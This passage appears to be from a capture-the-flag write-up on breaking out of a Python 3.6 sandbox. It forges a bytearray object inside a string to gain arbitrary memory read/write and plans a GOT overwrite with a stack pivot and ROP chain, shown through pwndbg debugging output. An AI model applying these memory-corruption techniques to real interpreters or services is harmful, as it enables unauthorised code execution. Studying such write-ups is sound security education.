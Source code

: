 ```sh
```

bytearray is a mutable object , We can fake this object with controlled `ob_start` and `ob_bytes` and get arbitrary read write primitive .

Now we need a space to fake our bytearray object ,

```python
>>> a = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"           
>>> hex(id(a))                           
'0x7ffff74b3088'
...
...
pwndbg> x/10gx 0x7ffff74b3088
0x7ffff74b3088: 0x0000000000000001      0x00000000007d6400
0x7ffff74b3098: 0x0000000000000023      0x15902057a8b86b36
0x7ffff74b30a8: 0x00000000007d00e5      0x0000000000000000
0x7ffff74b30b8: 0x4141414141414141      0x4141414141414141
0x7ffff74b30c8: 0x4141414141414141      0x4141414141414141
```

We can use the string object to create our fake bytearray object , Since they have whitelisted id and we can easily get the address of the string object and adding a offset will give our string.


<a id="org7c6608c"></a>

## Getting Code Execution

Now there are many possibility , and the one I took is to overwrite the got table and do a stack pivot to execute rop to read flag from `1023` and call write to print the flag to screen.

Since we can use print function and we can also give a string as a argument this seems to be a good candidate . Let's check which function is executed when print is called

```sh
$ cat test.py
print("AAAAAAAAAAAAAAAAAA")

$ gdb --args ./python3.6 -u test.py
pwndbg> catch syscall 1                            
Catchpoint 1 (syscall 'write' [1])                             
pwndbg> r  
...
pwndbg> bt
#0  0x00007ffff7ec6874 in __GI___libc_write (fd=1, buf=0x7ffff74af360, nbytes=19) at ../sysdeps/unix/sysv/linux/write.c:26                            
#1  0x00000000004c1858 in ?? ()
#2  0x0000000000565bd1 in _PyCFunction_FastCallDict ()
#3  0x00000000005a3761 in _PyObject_FastCallDict ()
#4  0x00000000005a3a5e in PyObject_CallMethodObjArgs ()
...
...
pwndbg> x/10i 0x00000000004c1858 - 0x20
   0x4c1838:    add    BYTE PTR [rcx-0x77],cl
   0x4c183b:    (bad)
   0x4c183c:    call   0x420050 <__errno_location@plt>
   0x4c1841:    mov    rdx,rbx
   0x4c1844:    mov    rsi,r14
   0x4c1847:    mov    edi,r12d
   0x4c184a:    mov    DWORD PTR [rax],0x0
   0x4c1850:    mov    rbp,rax
   0x4c1853:    call   0x4207e0 <write@plt>
```
